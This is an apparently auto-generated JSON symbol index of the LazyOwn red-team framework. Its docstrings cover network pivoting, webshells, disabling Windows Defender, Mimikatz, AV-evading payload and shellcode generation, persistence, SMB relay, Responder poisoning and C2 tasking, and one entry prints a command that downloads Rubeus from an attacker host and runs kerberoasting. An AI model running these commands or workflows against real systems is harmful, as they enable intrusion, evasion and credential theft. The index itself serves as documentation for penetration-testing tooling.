"PivotingCommandSet", "signature": "class PivotingCommandSet(LazyOwnCommandSet)"}, {"doc": "Discover internal networks reachable from the pivot host.\n\nArgs:\n    rhost: The pivot host IP.\n\nReturns:\n    List of CIDR-notation networks found.", "kind": "function", "line": 262, "name": "_discover_internal_networks", "signature": "def _discover_internal_networks(rhost)"}, {"doc": "Set up a Chisel reverse SOCKS proxy.\n\nArgs:\n    rhost: Pivot host IP.\n    lhost: Attacker IP.\n    port: Local port for the SOCKS proxy.\n    networks: Internal networks to route through the pivot.\n\nReturns:\n    True when the local server started, False when chisel is absent.", "kind": "function", "line": 308, "name": "_setup_chisel_pivot", "signature": "def _setup_chisel_pivot(rhost, lhost, port, networks)"}, {"doc": "Set up an SSH dynamic SOCKS proxy.\n\nArgs:\n    rhost: Pivot host IP.\n    lhost: Attacker IP.\n    port: Local port for the SOCKS proxy.\n    networks: Internal networks to route through the pivot.\n\nReturns:\n    True when the SSH tunnel command completed, False otherwise.", "kind": "function", "line": 352, "name": "_setup_ssh_pivot", "signature": "def _setup_ssh_pivot(rhost, lhost, port, networks)"}, {"doc": "Set up a Socat relay.\n\nArgs:\n    rhost: Pivot host IP.\n    lhost: Attacker IP.\n    port: Local port for the relay.\n    networks: Internal networks.\n\nReturns:\n    True when the relay commands completed, False when socat is absent.", "kind": "function", "line": 389, "name": "_setup_socat_pivot", "signature": "def _setup_socat_pivot(rhost, lhost, port, networks)"}, {"doc": "Find a free TCP port starting from ``start``.\n\nArgs:\n    start: First port to try.\n\nReturns:\n    An available port number.", "kind": "function", "line": 442, "name": "_find_free_port", "signature": "def _find_free_port(start)"}, {"doc": "Load the pivot chain from the session file.", "kind": "function", "line": 463, "name": "_load_pivot_chain", "signature": "def _load_pivot_chain()"}, {"doc": "Save the pivot chain to the session file.", "kind": "function", "line": 471, "name": "_save_pivot_chain", "signature": "def _save_pivot_chain(chain)"}, {"doc": "Extract a ``--flag <value>`` pair from a list of arguments.", "kind": "function", "line": 478, "name": "_extract_flag", "signature": "def _extract_flag(args, flag)"}, {"doc": "Auto-detect internal networks and set up pivot tunnels.\n\nUsage: autopivot [--lhost <attacker_ip>] [--rhost <pivot_host>] [--method <chisel|ssh|socat>]\n\nDiscovers internal networks reachable through the pivot host and\nsets up SOCKS/port forwarding to access them from the attacker machine.", "kind": "method", "line": 44, "name": "do_autopivot", "signature": "def do_autopivot(self, line)"}, {"doc": "Show the current pivot chain state.\n\nUsage: pivot_status [--json]", "kind": "method", "line": 118, "name": "do_pivot_status", "signature": "def do_pivot_status(self, line)"}, {"doc": "Kill all pivot tunnels and clean up.\n\nUsage: pivot_kill [--hop <n>]\n\nWithout --hop, kills all pivot processes. With --hop, kills a specific hop.", "kind": "method", "line": 137, "name": "do_pivot_kill", "signature": "def do_pivot_kill(self, line)"}, {"doc": "Scan internal networks through the current pivot chain.\n\nUsage: pivot_scan <network_cidr> [--port <ports>] [--rate <pkts_per_sec>]\n\nRuns a fast TCP scan through proxychains against internal networks.", "kind": "method", "line": 171, "name": "do_pivot_scan", "signature": "def do_pivot_scan(self, line)"}, {"doc": "Start a local SOCKS proxy through the pivot chain.\n\nUsage: pivot_proxy [--port <local_port>] [--hop <n>]\n\nStarts a proxy listener on the attacker machine that forwards\ntraffic through the specified pivot hop.", "kind": "method", "line": 224, "name": "do_pivot_proxy", "signature": "def do_pivot_proxy(self, line)"}]}, {"doc": "Post-Exploitation command set (pending).  Phase 04 — commands for post-exploitation tasks: webshells, AV bypass, automated enumeration, shellcode generation, and payload creation.  Pending status: inherits from :class:`PendingCommandSet`. Promote to :class:`LazyOwnCommandSet` once originals are deleted from ``lazyown.py``.", "id": "cli/commands/postexp.py", "kind": "module", "label": "postexp.py", "language": "py", "sha256": "565ef5d732718fcf", "symbol_count": 9, "symbols": [{"doc": "Post-Exploitation phase commands (pending).", "kind": "class", "line": 25, "name": "PostExploitationCommandSet", "signature": "class PostExploitationCommandSet(LazyOwnCommandSet)"}, {"doc": "Run LazyOwn webshell server on port 8888.", "kind": "method", "line": 32, "name": "do_lazywebshell", "signature": "def do_lazywebshell(self, line)"}, {"doc": "Create a VBS script to attempt disabling Windows Defender.", "kind": "method", "line": 45, "name": "do_disableav", "signature": "def do_disableav(self, line)"}, {"doc": "Run Mimikatz over Python (impacket style).", "kind": "method", "line": 59, "name": "do_mimikatzpy", "signature": "def do_mimikatzpy(self, line)"}, {"doc": "Run the Scavenger post-exploitation data collector.", "kind": "method", "line": 64, "name": "do_scavenger", "signature": "def do_scavenger(self, line)"}, {"doc": "Run the Follina (CVE-2022-30190) exploit setup.", "kind": "method", "line": 69, "name": "do_follina", "signature": "def do_follina(self, line)"}, {"doc": "Generate and manage shellcode.", "kind": "method", "line": 74, "name": "do_shellcode", "signature": "def do_shellcode(self, line)"}, {"doc": "Obfuscate a PowerShell script.", "kind": "method", "line": 82, "name": "do_ofuscatorps1", "signature": "def do_ofuscatorps1(self, line)"}, {"doc": "Execute atomic red-team tests via LazyOwn.", "kind": "method", "line": 87, "name": "do_atomic_lazyown", "signature": "def do_atomic_lazyown(self, line)"}]}, {"doc": "postexp commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.", "id": "cli/commands/postexp_migrated.py", "kind": "module", "label": "postexp_migrated.py", "language": "py", "sha256": "6d44279ff11f85b2", "symbol_count": 39, "symbols": [{"kind": "class", "line": 32, "name": "PostexpMigratedCommandSet", "signature": "class PostexpMigratedCommandSet(LazyOwnCommandSet)"}, {"doc": "Automates command execution based on a list of aliases and commands.\n\n1. Displays available aliases and their commands.\n2. Asks the user if they want to execute a specific command.\n3. If confirmed, displays the alias and command with a number.\n4. Executes the command and copies it to the clipboard.\n\n:param line: The command line input containing a keyword to filter the list of alias and command pairs.\n:type line: str\n:returns: None\n\nManual execution:\n- Prepare the list of alias and command pairs in the format: \"alias command\".\n- Provide this list as input to the function.\n- Confirm the execution of the desired command when prompted.\n- Manually copy the command to the clipboard if needed.\n\nNote: Ensure `xclip` is installed and properly configured to use clipboard functionalities.", "kind": "method", "line": 37, "name": "do_find", "signature": "def do_find(self, line)"}, {"doc": "Generates a command to display TCP and UDP ports and copies it to the clipboard.\n\nThis function performs the following actions:\n1. Defines a command to display TCP and UDP ports from `/proc/net/tcp` and `/proc/net/udp`, respectively.\n2. The command extracts and formats IP addresses and port numbers from these files.\n3. Prints the generated command to the console for verification.\n4. Copies the command to the clipboard using `xclip`.\n\nUsage:\n    cports  # Generates the command and copies it to the clipboard\n\n:param line: This parameter is not used in this function.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually use this function:\n1. Run the function to print the command and copy it to the clipboard.\n2. The command can be pasted into a terminal to display TCP and UDP ports.\n\nNote: Ensure `xclip` is installed on your system for copying to the clipboard. If `xclip` is not available, you may need to install it or use an alternative method for copying to the clipboard.", "kind": "method", "line": 533, "name": "do_cports", "signature": "def do_cports(self, line)"}, {"doc": "Copies a command to the clipboard for downloading and running Rubeus.\n\n1. Checks if `self.params['lhost']` (local host IP) is set:\n    - If `self.params['lhost']` is not set, displays an error message and exits the function.\n\n2. If `self.params['lhost']` is set:\n    - Displays a message indicating that the Rubeus downloader command has been copied to the clipboard.\n    - The copied command downloads Rubeus from the specified `self.params['lhost']` and saves it as `Rubeus.exe`.\n    - Uses `xclip` to copy the following command to the clipboard:\n    - `iwr -uri http://{self.params['lhost']}/Rubeus.exe -OutFile Rubeus.exe ; .\\Rubeus.exe kerberoast /creduser:self.params['domain'].local\\usuario /credpassword:password`\n\n:param line: Not used in this function.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would need to:\n- Ensure that `self.params['lhost']` is assign correctly.\n- Use `xclip` to copy the provided command to the clipboard.\n- Execute the downloaded Rubeus executable with the provided arguments.\n\nNote: Ensure `xclip` is installed and available on your system.", "kind": "method", "line": 578, "name": "do_rubeus", "signature": "def do_rubeus(self, line)"}, {"doc": "Attach strace to a running process and log output to a file.\n\nThis function attaches `strace` to a process specified by its PID,\ntracing system calls related to writing data. The output of `strace`\nis saved to a file named `strace.txt` in the `sessions` directory.\n\nParameters:\n- line (str): The PID of the process to attach strace to.\n\nRaises:\n- ValueError: If the `line` parameter is empty.\n- FileNotFoundError: If `strace` is not installed.\n\nExample:\n- `sessionsshstrace 666`: Attach strace to process with PID 666.\n\nNotes:\n- Ensure the `sessions` directory exists or is created before running the command.\n- The command redirects both stdout and stderr to the `strace.txt` file.", "kind": "method", "line": 618, "name": "do_sessionsshstrace", "signature": "def do_sessionsshstrace(self, line)"}, {"doc": "Generate and execute a PowerShell command stager to run a .ps1 script.\n\nThis function takes the name of a PowerShell script (.ps1), encodes its content in base64,\nand constructs a command to execute the script using PowerShell in a hidden and elevated manner.\nThe function then prints the generated command.\n\n:param line: The name of the PowerShell script file to encode and execute.\n:returns: None", "kind": "method", "line": 669, "name": "do_powershell_cmd_stager", "signature": "def do_powershell_cmd_stager(self, line)"}, {"doc": "Search the shell-storm API for shellcodes using the provided keywords.\n\nThis function sends a GET request to the shell-storm API with the specified keywords.\nIt then prints the results.\n\n:param line: A string containing the keywords to search for.\n:returns: None", "kind": "method", "line": 706, "name": "do_shellcode_search", "signature": "def do_shellcode_search(self, line)"}, {"doc": "Converts shellcode to SYLK format and saves the result to a file.\n\nThis function reads the provided shellcode, or retrieves it from a default\nbinary source if not supplied. The shellcode is then converted to SYLK\nformat and saved in the `sessions/shellcode.sylk` file.\n\nPoC Python code to create a SYLK file with Excel4 shellcode loader.\n\nAuthor: Stan Hegt (@StanHacked)\n\nJust a proof of concept. Needs polishing before use in actual operations.\nOr as Adam Chester would put it: \"RWX for this POC, because... yolo\"\n\nBackground details: https://outflank.nl/blog/2019/10/30/abusing-the-sylk-file-format/\n\nArgs:\n    line (str): The input shellcode string. If empty or None, the function\n                attempts to load shellcode from a predefined source.\n\nReturns:\n    None: The function writes the SYLK shellcode to a file and prints it\n    out, but does not return any value.\n\nRaises:\n    FileNotFoundError: If no shellcode is found when trying to load it from\n                    the default source.", "kind": "method", "line": 754, "name": "do_shellcode2sylk", "signature": "def do_shellcode2sylk(self, line)"}, {"doc": "Executes the PEzor tool to pack executables or shellcode with custom configurations.\n\nThis function enables the user to construct commands for PEzor with various options.\nBy default, parameters are prompted to ensure successful execution without failure due to\nmissing values. It supports both executable and shellcode packing with the ability to\nselect from a range of PEzor flags to create the desired payload.\n\nFunctionalities of the function include:\n1. Prompting the user to specify if they want to pack an executable or shellcode.\n2. Gathering parameters for different PEzor flags based on user choices.\n3. Building the command dynamically to execute PEzor.sh with the configured options.\n\nExample commands the function can build:\n- Pack an executable with 64-bit, debug, and anti-debug options.\n- Pack shellcode with self-injection and sleep options.\n\nUsage:\n    - Run 'PEzor <EXECUTABLE> [donut args...]' to pack an executable with donut options.\n    - Run 'PEzor <SHELLCODE>' to pack shellcode.\n\n:param line: String containing initial command-line arguments or options.", "kind": "method", "line": 799, "name": "do_pezorsh", "signature": "def do_pezorsh(self, line)"}, {"doc": "Sets up a local pip repository to serve Python packages for installation on a compromised machine without internet access.\n\nThis function performs the following steps:\n1. Creates necessary directories for the pip repository.\n2. Checks for the presence of `pip-compile` and installs it if missing.\n3. Downloads a predefined list of Python packages to the local repository.\n4. Compiles the requirements for each package and downloads the compiled dependencies.\n5. Organizes the downloaded packages into a structured directory format.\n6. Generates an index for the pip repository.\n7. Serves the pip repository over HTTP, allowing the compromised machine to install packages from this local repository.\n\nParameters:\nline (str): Command line input (not used in this function).\n\nReturns:\nNone\n\nExample Usage:\n```\npip_repo\n```", "kind": "method", "line": 872, "name": "do_pip_repo", "signature": "def do_pip_repo(self, line)"}, {"doc": "Creates a comprehensive local APT repository with enhanced dependency resolution.\n\nImprovements:\n1. More robust dependency and metadata handling\n2. Better error checking and logging\n3. Comprehensive package and dependency management\n\nParameters:\nline (str): A space-separated list of package names to include in the repository.\n\nReturns:\nNone", "kind": "method", "line": 984, "name": "do_apt_repo", "signature": "def do_apt_repo(self, line)"}, {"doc": "Generates an obfuscated payload to evade AV detection using the payloadGenerator tool. thanks to smokeme\n\nThis function:\n    - Clones the payloadGenerator repository if not already cloned.\n    - Installs .NET Framework 4.5 if not already installed.\n    - Executes the generator.py script with the provided IP, port, and XOR key.\n    - Displays the result in the terminal.\nParameters:\n    line (str): lenght of xor key\nBehavior:\n    - Requires `git` and `dotnet` to be installed.\n    - Uses parameters from `self.params` for IP, port, and XOR key.\n\nUsage:\n    createpayload", "kind": "method", "line": 1233, "name": "do_createpayload", "signature": "def do_createpayload(self, line)"}, {"doc": "Converts a binary file to a shellcode string in C or Nim format.\n\nThis function:\n    - Reads a binary file and converts its contents to a shellcode string.\n    - Supports both C and Nim formats.\n    - Displays the result in the terminal and saves it to a file.\n\nBehavior:\n    - Requires the filename, width, quotes, and format parameters.\n    - Uses default values if parameters are not provided.\n    - Uses parameters from `self.params` for filename, width, quotes, and format.\n\nUsage:\n    bin2shellcode [<filename> [<width> [<quotes> [<format>]]]]\n    bin2shellcode sessions/shellcode.bin 20 True c", "kind": "method", "line": 1285, "name": "do_bin2shellcode", "signature": "def do_bin2shellcode(self, line)"}, {"doc": "Trasnform file .exe into binary file.\n\nArgs:\n    line (str): Ruta del archivo ejecutable .exe.\n\nReturn shellcode.bin file in sessions directory", "kind": "method", "line": 1375, "name": "do_exe2bin", "signature": "def do_exe2bin(self, line)"}, {"doc": "Trasnform file .exe into donut binary file.\n\nArgs:\n    line (str): path to the .exe.\n\nReturn shellcode.bin file in sessions directory", "kind": "method", "line": 1402, "name": "do_exe2donutbin", "signature": "def do_exe2donutbin(self, line)"}, {"doc": "Exec command in the client using the C2. download: command you must put the file in sessions/temp_upload or use download_c2 command\n\nParameters:\ncommand (str): client_id [optional], Command to exec.\n\nReturns:\nNone", "kind": "method", "line": 1426, "name": "do_issue_command_to_c2", "signature": "def do_issue_command_to_c2(self, line)"}, {"doc": "Executes the D3m0n1z3dShell tool for persistence in Linux.\n\nThis function:\n    - Installs D3m0n1z3dShell if not already installed.\n    - Executes the D3m0n1z3dShell command with the provided parameters.\n    - Displays the result in the terminal.\n\nBehavior:\n    - Requires `git` and `curl` to be installed.\n    - Uses a one-liner installation method for simplicity.\n\nUsage:\n    d3monizedshell", "kind": "method", "line": 1450, "name": "do_d3monizedshell", "signature": "def do_d3monizedshell(self, line)"}, {"doc": "Copies the local \"sessions\" directory to a remote host using scp, leveraging sshpass for automated authentication.\n\nSteps:\n    1. Verifies if the credentials file exists in the \"sessions\" directory.\n    If not, prompts the user for a username and password.\n    2. Reads the credentials file if it exists and extracts the username and password.\n    3. Constructs an scp command to deploy the \"sessions\" directory to the remote host.\n    4. Executes the scp command using the system shell.\n\nArgs:\n    line (str): Input command line (optional). The third parameter can be 'win' or 'lin' to specify the target OS.\n\nDependencies:\n    - The `sshpass` command-line tool must be installed on the local machine.\n    - `scp` must be installed on both the local and remote machines.\n    - The remote host must be accessible via SSH.\n\nAttributes:\n    - `self.params`: Dictionary containing the following keys:\n        - `username` (str, optional): Predefined username. Defaults to prompting the user if not provided.\n        - `password` (str, optional): Predefined password. Defaults to prompting the user if not provided.\n        - `self.params['rhost']` (str): Remote host's IP or self.params['domain'] name.\n\nRaises:\n    - KeyError: If `self.params['rhost']` is not provided in `self.params`.\n    - FileNotFoundError: If the \"sessions\" directory does not exist.\n\nNote:\n    - The `credentials.txt` file, if present, should have credentials in the format `username:password`\n    on the first line.\n\nReturns:\n    None", "kind": "method", "line": 1483, "name": "do_scp", "signature": "def do_scp(self, line)"}, {"doc": "Configures the local machine with internet access to act as an APT proxy for a machine without internet access.\n\nSteps:\n    1. Installs and configures apt-cacher-ng on the local machine.\n    2. Generates the necessary commands to configure the remote machine to use the proxy.\n    3. Copies the commands to the clipboard using the copy2clip function.\n\nParameters:\n    line (str): The IP address of the remote machine without internet access.\n\nReturns:\n    None", "kind": "method", "line": 1579, "name": "do_apt_proxy", "signature": "def do_apt_proxy(self, line)"}, {"doc": "Configures the local machine with internet access to act as a pip proxy for a machine without internet access.\n\nSteps:\n    1. Installs and configures squid on the local machine.\n    2. Generates the necessary commands to configure the remote machine to use the proxy.\n    3. Copies the commands to the clipboard using the copy2clip function.\n\nParameters:\n    line (str): The IP address of the remote machine without internet access.\n\nReturns:\n    None", "kind": "method", "line": 1635, "name": "do_pip_proxy", "signature": "def do_pip_proxy(self, line)"}, {"doc": "Configures the local machine with internet access to act as a proxy for a machine without internet access.\n\nSteps:\n    1. Installs and configures squid on the local machine.\n    2. Generates the necessary commands to configure the remote machine to use the proxy.\n    3. Copies the commands to the clipboard using the copy2clip function.\n\nParameters:\n    line (str): The IP address of the remote machine without internet access.\n\nReturns:\n    None", "kind": "method", "line": 1693, "name": "do_internet_proxy", "signature": "def do_internet_proxy(self, line)"}, {"doc": "Convert shellcode into an ELF file and infect it.\n\nThis function takes an optional input line that specifies the name of the shellcode file.\nIf no input line is provided, a filename is generated based on the self.params['domain']. The function reads\nthe shellcode and inserts it into a C source file, then compiles the source file into an ELF\nfile. It also creates an infected version of the ELF file and uploads all generated files to a\ncommand and control (C2) server.\n\nArgs:\n    line (str): An optional input line that specifies the name of the shellcode file.\n\nReturns:\n    None", "kind": "method", "line": 1755, "name": "do_shellcode2elf", "signature": "def do_shellcode2elf(self, line)"}, {"doc": "Perform Remote Execution Command through SSH using configured start_user. See help grisun0 for backdoor user configuration.\n\nParameters:\n    line (str): The command line input, is the command to execute, if not presented is whoami\n\nReturns:\n    None", "kind": "method", "line": 1837, "name": "do_ssh_cmd", "signature": "def do_ssh_cmd(self, line)"}, {"doc": "Creates a systemd service file for a specified binary and generates a script to enable and start the service.\n\nThis function takes the name of a binary as input, creates a systemd service file for it, and generates a shell script\nto enable and start the service. The script is saved in the sessions directory and a command is provided to execute\nthe script remotely via SSH.\n\nArgs:\n    line (str): The command line input containing the name of the binary. If an absolute path is not provided,\n                a default path is used.\n\nReturns:\n    None\n\nRaises:\n    None\n\nExample:\n    >>> service my_binary_name", "kind": "method", "line": 1866, "name": "do_service_ssh", "signature": "def do_service_ssh(self, line)"}, {"doc": "Obfuscates a shell script by encoding it in Base64 and prepares a command to decode and execute it.\n\nThis function reads the content of a shell script file, encodes it in Base64, and constructs a command\nthat can be used to decode and execute the encoded script using `echo` and `base64 -d`.\n\nArgs:\n    line (str): The path to the shell script file to be obfuscated. If not provided, a default\n                path is obtained from the `get_users_dic` function.\n\nReturns:\n    None\n\nExample:\n    >>> ofuscatesh /path/to/script.sh or just ofuscatesh\n    # This will read the script, encode it in Base64, and prepare a command to decode and execute it.", "kind": "method", "line": 1940, "name": "do_ofuscatesh", "signature": "def do_ofuscatesh(self, line)"}, {"doc": "Obfuscates a shell script by encoding it in Base64 and prepares a command to decode and execute it.\n\nThis function reads the content of a shell script file, encodes it in Base64, and constructs a command\nthat can be used to decode and execute the encoded script using `echo` and `base64 -d`.\n\nArgs:\n    line (str): The path to the shell script file to be obfuscated. If not provided, a default\n                path is obtained from the `get_users_dic` function.\n\nReturns:\n    None\n\nExample:\n    >>> ofuscatesh /path/to/script.sh or just ofuscatesh\n    # This will read the script, encode it in Base64, and prepare a command to decode and execute it.", "kind": "method", "line": 1970, "name": "do_ofuscate_payload", "signature": "def do_ofuscate_payload(self, line)"}, {"doc": "LazyOwn RedTeam Adversary Emulator, you can configure your own adversaries in adversary.json\n\nParameters:\n    line (str): The command line input,\n    first argument optional is the id of Adversary,\n    the second optional argument is if the adversary run locally (l), remote (r), or doesn't run (n)\n\nExample: adversary 1 r\n\nReturns:\n    None", "kind": "method", "line": 1997, "name": "do_adversary", "signature": "def do_adversary(self, line)"}, {"doc": "Ofuscate a string into Go code.", "kind": "method", "line": 2145, "name": "do_ofuscate_string", "signature": "def do_ofuscate_string(self, line)"}, {"doc": "Convert a binary path to x64 little-endian hex code for shellcode injection.\n\nGenerates an 8-byte aligned hex string padded with '/' for direct use in\nx64 assembly syscall examples. Output format mimics: 0x68732f2f6e69622f ('/bin/sh').\n\nLicense: GPL v3 (https://www.gnu.org/licenses/gpl-3.0.html)\n\nArgs:\n    line: Input path (e.g., '/bin/ls')\n\nTechnical Process:\n    1. Null-terminate input\n    2. Pad with '/' to 8 bytes\n    3. Convert to little-endian 64-bit hex\n    4. Validate ASCII-only characters\n\nExamples:\n    Input:  '/bin/sh'\n    Output: 0x68732f2f6e69622f", "kind": "method", "line": 2187, "name": "do_path2hex", "signature": "def do_path2hex(self, line)"}, {"doc": "Convert raw hex payload from msfvenom into NASM-compatible shellcode format.\n\nTransforms a continuous hex string (e.g., msfvenom output) into a properly formatted\nassembly data section with line-wrapped db directives. Handles byte alignment and\nvalidation.\n\nLicense: GPL v3 (https://www.gnu.org/licenses/gpl-3.0.html)\n\nArgs:\n    line: Raw hex string from msfvenom (e.g., \"4831c94881e9f6...\")\n\nTechnical Process:\n    1. Validate hex format and remove non-hex characters\n    2. Split into byte pairs (xx) -> 0xXX format\n    3. Wrap into db lines (16 bytes per line)\n    4. Generate length calculation via shellcode_len\n\nExamples:\n    Input: 4831c94881e9f6\n    Output:\n        db 0x48,0x31,0xc9,0x48,0x81,0xe9,0xf6", "kind": "method", "line": 2234, "name": "do_hex2shellcode", "signature": "def do_hex2shellcode(self, line)"}, {"doc": "Create a basic synthetic playbook from Nmap CSV when LLM fails.\n\nUsage: create_synthetic <csv_file> [playbook_name]\nExample: create_synthetic nmap_results.csv SyntheticPlaybook", "kind": "method", "line": 2291, "name": "do_create_synthetic", "signature": "def do_create_synthetic(self, line)"}, {"doc": "Extract YAML from an existing debug file and try to create a playbook.\n\nUsage: extract_yaml <debug_file> [playbook_name]\nExample: extract_yaml debug_AutoGeneratedPlaybook.txt MyPlaybook", "kind": "method", "line": 2343, "name": "do_extract_yaml", "signature": "def do_extract_yaml(self, line)"}, {"doc": "Converts the Python REMCOMSVC byte string from remcomsvc.py to Golang byte slice format, prints a sample, and saves it to sessions/remcomsvc.go. see lazyaddon GoPEInjection\nUsage: convert_remcomsvc_from_file\nReturn: Converts the Python REMCOMSVC byte string from remcomsvc.py to Golang byte slice format, prints a sample, and saves it to sessions/remcomsvc.go.", "kind": "method", "line": 2405, "name": "do_convert_remcomsvc_from_file", "signature": "def do_convert_remcomsvc_from_file(self, arg)"}, {"doc": "Execute adversary from YAML in lazyadversaries/*.yaml\nSyntax: adversary [id] [l|r|n]", "kind": "method", "line": 2439, "name": "do_adversary_yaml", "signature": "def do_adversary_yaml(self, line)"}, {"doc": "Add a new custom command to the 'find' system, saved in user_commands.json.\n\nUsage: add2find\nYou will be prompted for:\n- Alias (descriptive name)\n- Command (the actual shell/command to execute)\n\nExample:\nAlias: LIN My Custom Recon\nCommand: find / -name \"*.log\" 2>/dev/null\n\nThe command will be available in 'find' immediately and persist across sessions.", "kind": "method", "line": 2524, "name": "do_add2find", "signature": "def do_add2find(self, line)"}, {"doc": "Remove a custom command by index (as shown in 'find').\n\nOnly removes user-added commands (not defaults).", "kind": "method", "line": 2552, "name": "do_rmfromfind", "signature": "def do_rmfromfind(self, line)"}, {"doc": "Encrypt with AES and random key to PE EXE file, to usage with loaders.\n\nUsage: aes_pe\nYou will be prompted for:\n- the PE Exe file (descriptive name)\n\nExample:\naes_pe\n\nThe files key.bin and cipher.bin will be available in 'sessions' immediately and persist across the web server.", "kind": "method", "line": 2581, "name": "do_aes_pe", "signature": "def do_aes_pe(self, line)"}, {"doc": "Scan files or directories with YARA rules for malware/IOCs.\n\nUsage: yara_scan <target_path> [--download-rules]\n\nScans the target path with default LazyOwn YARA rules covering\nwebshells, Cobalt Strike, reverse shells, credential theft, and\npersistence mechanisms.  Auto-installs yara-python if missing.", "kind": "method", "line": 2610, "name": "do_yara_scan", "signature": "def do_yara_scan(self, line)"}, {"doc": "Recursively resolve and download package dependencies with enhanced checks", "kind": "function", "line": 1030, "name": "resolve_and_download_dependencies", "signature": "def resolve_and_download_dependencies(package_name)"}]}, {"doc": "Privilege Escalation command set.  Pending phase module covering local privilege escalation helpers: SMB relay setup, Responder, linpeas / winpeas / pspy serving, kernel exploit suggestion (LES), SUID enumeration, GTFOBins / LOLBas lookup and the ``sudo`` re-launch helper.  Pending status: this set inherits from :class:`cli.commands._dormancy.PendingCommandSet`, so it is discovered for test coverage but not registered onto the shell while ``LazyOwnShell`` still defines the original methods. Promote it to :class:`cli.commands._base.LazyOwnCommandSet` once the legacy copies are deleted from ``lazyown.py``.", "id": "cli/commands/privilege_escalation.py", "kind": "module", "label": "privilege_escalation.py", "language": "py", "sha256": "be0de29190e91e38", "symbol_count": 21, "symbols": [{"doc": "Return the absolute path to the per-shell ``sessions/`` directory.\n\nArgs:\n    base_path: Shell ``self.path`` (the repository working directory).\n\nReturns:\n    Absolute path of ``<base_path>/sessions``.", "kind": "function", "line": 102, "name": "_sessions_directory", "signature": "def _sessions_directory(base_path)"}, {"doc": "Spawn a background HTTP server rooted at ``sessions_path``.\n\nArgs:\n    shell: The bound shell exposing ``cmd``.\n    binary_name: Filename being announced. Used only for log clarity.\n    sessions_path: Directory served by the HTTP server.\n    lport: Listening port copied from ``payload.json``.", "kind": "function", "line": 114, "name": "_serve_via_http", "signature": "def _serve_via_http(shell, binary_name, sessions_path, lport)"}, {"doc": "Pending phase module for the Privilege Escalation commands.", "kind": "class", "line": 132, "name": "PrivilegeEscalationCommandSet", "signature": "class PrivilegeEscalationCommandSet(LazyOwnCommandSet)"}, {"doc": "Stand up an Impacket SMB server with three relay variants.\n\nVariant 1 generates an SCF file under ``sessions/file.scf`` that\ntriggers SMB auth from victims browsing the share. Variant 2\ncopies a ``dnscmd`` DLL load one-liner for DA pivoting. Variant 3\npublishes the share with ``guest`` credentials for blind file\ndrops.\n\nArgs:\n    line: Optional share folder name. Defaults to\n        :data:`DEFAULT_SMB_FOLDER`.\n\nReturns:\n    None.", "kind": "method", "line": 139, "name": "do_smbserver", "signature": "def do_smbserver(self, line)"}, {"doc": "Run Responder on the configured ``device`` with elevated privileges.\n\nInstalls the package via ``apt`` when the binary is missing, then\ninvokes ``sudo responder -I <device> -w On`` so SMB/LLMNR/NBNS\npoisoning starts immediately.\n\nArgs:\n    line: Unused.\n\nReturns:\n    None.", "kind": "method", "line": 197, "name": "do_responder", "signature": "def do_responder(self, line)"}, {"doc": "Re-launch the framework with root privileges when missing.\n\nArgs:\n    line: Unused.\n\nReturns:\n    None.", "kind": "method", "line": 222, "name": "do_sudo", "signature": "def do_sudo(self, line)"}, {"doc": "Serve ``linpeas.sh`` over HTTP and print the target one-liner.\n\nSearches the configured candidates for the script, copies it\ninto ``sessions/`` and spawns a background HTTP server bound to\n``lhost:lport`` so the compromised host can pull and execute it.\n\nArgs:\n    line: Optional ``small`` flag to switch to ``linpeas_small.sh``.\n\nReturns:\n    None.", "kind": "method", "line": 235, "name": "do_linpeas", "signature": "def do_linpeas(self, line)"}, {"doc": "Serve a winPEAS variant over HTTP and print the target one-liner.\n\nSelects the variant by argument: default x64, ``x86`` for 32-bit,\n``bat`` for the batch script (no AV evasion), ``ps1`` for the\nPowerShell port, or ``any`` for the merged binary.\n\nArgs:\n    line: Variant selector. Empty defaults to :data:`WINPEAS_DEFAULT`.\n\nReturns:\n    None.", "kind": "method", "line": 271, "name": "do_winpeas", "signature": "def do_winpeas(self, line)"}, {"doc": "Run Linux Exploit Suggester against a kernel version.\n\nWhen no version is supplied, attempts to read it from\n``sessions/os.json``. Falls back to a warning when the kernel\ncannot be determined.\n\nArgs:\n    line: Optional explicit kernel version (``uname -r`` output).\n\nReturns:\n    None.", "kind": "method", "line": 310, "name": "do_les", "signature": "def do_les(self, line)"}, {"doc": "Print SUID/SGID enumeration commands ready to paste on the target.\n\nArgs:\n    line: Unused.\n\nReturns:\n    None.", "kind": "method", "line": 350, "name": "do_suid_check", "signature": "def do_suid_check(self, line)"}, {"doc": "Serve the ``pspy`` process monitor over HTTP.\n\nArgs:\n    line: ``32`` to serve ``pspy32``; anything else serves\n        ``pspy64``.\n\nReturns:\n    None.", "kind": "method", "line": 369, "name": "do_pspy", "signature": "def do_pspy(self, line)"}, {"doc": "Look up a binary in GTFOBins and LOLBas parquet knowledge bases.\n\nArgs:\n    line: Binary name to search (case-insensitive). Empty input\n        emits a usage error.\n\nReturns:\n    None.", "kind": "method", "line": 403, "name": "do_gtfo", "signature": "def do_gtfo(self, line)"}, {"doc": "Print privilege enumeration commands for the target OS.\n\nDetects the target OS from ``payload.json`` or ``sessions/os.json``\nand prints a ready-to-paste set of commands that reveal the current\nuser's privileges, group memberships, and dangerous tokens.\n\nArgs:\n    line: Unused.\n\nReturns:\n    None.", "kind": "method", "line": 450, "name": "do_whoami_priv", "signature": "def do_whoami_priv(self, line)"}, {"doc": "Print Linux privilege enumeration commands.", "kind": "method", "line": 480, "name": "_whoami_priv_linux", "signature": "def _whoami_priv_linux(self)"}, {"doc": "Print Windows privilege enumeration commands.", "kind": "method", "line": 496, "name": "_whoami_priv_windows", "signature": "def _whoami_priv_windows(self)"}, {"doc": "Analyse sudo -l output and cross-reference with GTFOBins.\n\nReads sudo -l output from a session file or command argument and\nidentifies binaries with documented privilege escalation bypasses\nfrom the GTFOBins parquet knowledge base.\n\nArgs:\n    line: Optional path to a file containing sudo -l output.\n        When empty, attempts to read from the last session report.\n\nReturns:\n    None.", "kind": "method", "line": 512, "name": "do_sudo_privesc", "signature": "def do_sudo_privesc(self, line)"}, {"doc": "Serve PrintSpoofer over HTTP for Windows privilege escalation.\n\nSearches for ``PrintSpoofer64.exe`` in configured directories,\ncopies it to ``sessions/`` and serves it via HTTP. Prints the\ntarget one-liner for download + execution.\n\nArgs:\n    line: Unused.\n\nReturns:\n    None.", "kind": "method", "line": 610, "name": "do_printspoofer", "signature": "def do_printspoofer(self, line)"}, {"doc": "Serve JuicyPotato over 